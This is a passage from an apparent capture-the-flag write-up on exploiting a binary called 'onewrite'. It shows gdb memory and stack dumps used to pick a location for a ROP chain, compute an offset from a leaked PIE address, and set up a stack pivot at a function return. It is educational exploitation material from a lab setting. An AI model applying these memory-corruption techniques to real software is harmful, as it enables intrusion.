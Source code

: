 ```
0x7fd53edda3b0: 0x0 0x0
0x7fd53edda3c0: 0x0 0x0
0x7fd53edda3d0: 0x0 0x0
0x7fd53edda3e0: 0x0 0x0
0x7fd53edda3f0: 0x0 0x0
0x7fd53edda400: 0x0 0x0
0x7fd53edda410: 0x0 0x0
0x7fd53edda420: 0x0 0x0
0x7fd53edda430: 0x0 0x0
0x7fd53edda440: 0x0 0x0
0x7fd53edda450: 0x0 0x0
0x7fd53edda460: 0x0 0x0
0x7fd53edda470: 0x0 0x0
0x7fd53edda480: 0x0 0x0
```

So we can see there is a lot of blank space here for us to use. I choose `0x7fd53edda3b0` randomly. Calculating the offset from the leaked pie address, we see that the offset is `0x2aa99b`.

#### Stack Pivot

The last thing we will need to know is where to store our rop chain. This will directly deal with our stack pivot.

The stack pivot attack here will work when `do_overwrite` returns. We can see that when a function returns (calls `ret` instruction), the `rsp` register (which points to the top of the stack) points to the instruction address which will be executed:

```
───────────────────────────────────────────────────────────────────── stack ────
0x00007ffce47b3838│+0x0000: 0x00007f8889c49ab2  →   nop    ← $rsp
0x00007ffce47b3840│+0x0008: 0x00007f8889c4a780  →   push r15
0x00007ffce47b3848│+0x0010: 0x00007f8889c49a15  →   sub rsp, 0x18
0x00007ffce47b3850│+0x0018: 0x0000000000000000
0x00007ffce47b3858│+0x0020: 0x00007f8889c49b04  →   call 0x7f8889c49a15  ← $rsi
0x00007ffce47b3860│+0x0028: 0x00007f8889c49060  →   sub rsp, 0x8
0x00007ffce47b3868│+0x0030: 0x00007f8889c4a089  →   mov edi, eax
0x00007ffce47b3870│+0x0038: 0x0000000000000000
─────────────────────────────────────────────────────────────── code:x86:64 ────
   0x7f8889c49a0a                  call   0x7f8889c870f0
   0x7f8889c49a0f                  nop    
   0x7f8889c49a10                  add    rsp, 0x18
 → 0x7f8889c49a14                  ret    
   ↳  0x7f8889c49ab2                  nop    
      0x7f8889c49ab3                  add    rsp, 0x18
      0x7f8889c49ab7                  ret    
      0x7f8889c49ab8                  sub    rsp, 0x8
      0x7f8889c49abc                  mov    rax, QWORD PTR [rip+0x2a8d25]        # 0x7f8889ef27e8
      0x7f8889c49ac3                  mov    ecx, 0x0
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "onewrite", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7f8889c49a14 → ret
[#1] 0x7f8889c49ab2 → nop
[#2] 0x7f8889c4a780 → push r15
[#3] 0x7f8889c49a15 → sub rsp, 0x18
────────────────────────────────────────────────────────────────────────────────
gef➤  p $rsp
$1 = (void *) 0x7ffce47b3838
gef➤  x/g $rsp
0x7ffce47b3838: 0x7f8889c49ab2
gef➤  x/3i 0x7f8889c49ab2
   0x7f8889c49ab2:  nop
   0x7f8889c49ab3:  add    rsp,0x18
   0x7f8889c49ab7:  ret    
```